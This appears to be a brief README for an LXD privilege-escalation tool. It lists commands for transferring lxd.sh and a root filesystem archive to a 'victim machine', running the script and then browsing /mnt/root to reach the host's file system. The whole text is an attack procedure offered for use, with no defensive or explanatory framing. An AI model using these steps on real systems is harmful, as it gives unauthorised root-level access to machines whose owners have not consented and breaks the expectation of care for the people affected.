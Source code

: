  # Instructions

1. Git clone the repository

2. Transfer lxd.sh and root.tar.gz to victim machine 

3. chmod +x lxd.sh

4. ./lxd.sh root.tar.gz

5. cd /mnt/root

Now you will have access to file system
 

